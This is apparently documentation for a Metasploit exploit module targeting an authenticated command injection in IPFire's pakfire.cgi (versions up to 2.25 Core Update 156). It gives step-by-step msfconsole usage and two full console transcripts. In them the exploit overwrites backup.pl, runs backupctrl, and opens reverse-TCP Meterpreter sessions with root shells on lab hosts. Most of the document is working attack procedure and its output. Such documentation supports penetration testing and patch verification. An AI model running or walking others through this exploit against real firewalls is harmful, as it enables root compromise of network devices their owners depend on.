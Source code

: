 ## Vulnerable Application

  [IPFire 2.25 (Core Update 156)](https://downloads.ipfire.org/releases/ipfire-2.x/2.25-core156/ipfire-2.25.x86_64-full-core156.iso)
  [IPFire 2.21 (Core Update 126)](https://mirror.csclub.uwaterloo.ca/ipfire/releases/ipfire-2.x/2.21-core126/ipfire-2.21.x86_64-full-core126.iso)

  This module exploits an authenticated command injection vulnerability in the
  `/cgi-bin/pakfire.cgi` web page of IPFire devices running versions 2.25 Core Update 156
  and prior to execute arbitrary code as the `root` user.

## Verification Steps

  1. Start msfconsole
  1. Do: `use exploit/linux/http/ipfire_pakfire_exec`
  1. Do: `set username <USERNAME OF THE ADMINISTRATIVE USER TO AUTHENTICATE TO THE WEB PORTAL AS>`
  1. Do: `set password <PASSWORD FOR admin USER ON THE WEB PORTAL>`
  1. Do: `set rhost <TARGET IP>`
  1. Do: `set lhost <YOUR IP>`
  1. Do: `exploit`
  1. You should get a shell as the `root` user.

## Options

  **USERNAME**
  Username of the administrative user you are authenticating to the web portal as.

  **PASSWORD**
  Password for the administrative user you are authenticating to the web portal as.

## Scenarios

### IPFire 2.21 (Core Update 126)
```
msf6 > use exploit/linux/http/ipfire_pakfire_exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local ma
                                        chine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python Dropper


msf6 exploit(linux/http/ipfire_pakfire_exec) > set RHOSTS 172.29.202.191
RHOSTS => 172.29.202.191
msf6 exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > set LHOST 172.29.202.153
LHOST => 172.29.202.153
msf6 exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.29.202.153:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.21 (Core Update 126)
[*] Backing up backup.pl to /tmp/1TiE8...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to run the payload
[*] Sending stage (39392 bytes) to 172.29.202.191
[*] Meterpreter session 1 opened (172.29.202.153:4444 -> 172.29.202.191:38336) at 2021-06-08 14:05:41 -0500
[+] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.86-ipfire #1 SMP Tue Dec 11 08:36:08 GMT 2018
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: root
meterpreter > shell
Process 28379 created.
Channel 1 created.
sh: cannot set terminal process group (27956): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.3#
```

### IPFire 2.25 (Core Update 156)

```
msf6 > use exploit/linux/http/ipfire_pakfire_exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local ma
                                        chine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python Dropper


msf6 exploit(linux/http/ipfire_pakfire_exec) > set RHOST 172.29.202.157
RHOST => 172.29.202.157
msf6 exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > set LHOST 172.29.202.153
LHOST => 172.29.202.153
msf6 exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.29.202.153:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.25 (Core Update 156)
[*] Backing up backup.pl to /tmp/8Yndo...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to run the payload
[*] Sending stage (39392 bytes) to 172.29.202.157
[*] Meterpreter session 1 opened (172.29.202.153:4444 -> 172.29.202.157:37192) at 2021-06-08 14:02:03 -0500
[+] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.212-ipfire #1 SMP Tue May 4 09:02:54 GMT 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: root
meterpreter > shell
Process 10179 created.
Channel 1 created.
sh: cannot set terminal process group (10136): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.0#
```
